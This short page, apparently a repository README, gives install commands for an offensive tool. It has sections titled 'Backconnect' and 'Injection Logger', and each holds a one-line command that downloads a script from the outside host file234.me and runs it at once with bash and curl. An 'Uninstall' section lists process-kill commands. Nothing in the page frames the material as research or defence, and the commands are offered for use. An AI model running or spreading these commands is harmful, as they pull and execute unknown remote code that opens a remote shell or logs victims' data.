 Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/z)"

Injection Logger
======================
bash -c "$(curl -fsSL https://file234.me/self)"

Uninstall
=====================
pkill defunct
================
kill -KILL PID
pkill -t pts/0
